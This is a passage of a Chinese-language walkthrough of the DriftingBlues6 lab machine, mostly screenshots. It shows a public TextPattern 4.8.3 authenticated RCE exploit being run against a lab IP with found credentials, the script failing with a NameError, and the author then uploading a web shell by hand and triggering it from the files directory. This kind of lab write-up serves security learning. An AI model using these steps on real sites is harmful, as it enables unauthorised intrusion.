 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427831.png" alt="image-20240412134914157" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427832.png" alt="image-20240412134926786" style="zoom:50%;" />



搜集一下CMS漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427833.png" alt="image-20240412135045532" style="zoom:50%;" />

查看一下版本号：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427834.png" alt="image-20240412135117818" style="zoom:50%;" />

正好有一个RCE漏洞，尝试利用：

```bash
┌──(kali💀kali)-[~/temp/driftingblues6]
└─$ python3 48943.py                      
Software: TextPattern <= 4.8.3
CVE: CVE-2020-XXXXX - Authenticated RCE via Unrestricted File Upload
Author: Michele '0blio_' Cisternino
[*] USAGE: python3 exploit.py http://target.com username password
[*] EXAMPLE: python3 exploit.py http://localhost admin admin

┌──(kali💀kali)-[~/temp/driftingblues6]
└─$ python3 48943.py http://172.20.10.5/textpattern/textpattern/ mayer lionheart
Software: TextPattern <= 4.8.3
CVE: CVE-2020-XXXXX - Authenticated RCE via Unrestricted File Upload
Author: Michele '0blio_' Cisternino
[*] Authenticating to the target as 'mayer'
Traceback (most recent call last):
  File "/home/kali/temp/driftingblues6/48943.py", line 122, in <module>
    "_txp_token" : (None, uploadToken), # Token here
                          ^^^^^^^^^^^
NameError: name 'uploadToken' is not defined
```

尝试文件上传的吗，我们直接上传吧：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427835.png" alt="image-20240412140131449" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427836.png" alt="image-20240412140212634" style="zoom:50%;" />

尝试访问：

```apl
http://172.20.10.5/textpattern/files/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427838.png" alt="image-20240412140646208" style="zoom:50%;" />

看到我们的shell了，点击激活！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404121427839.png" alt="image-20240412140718854" style="zoom:50%;" />
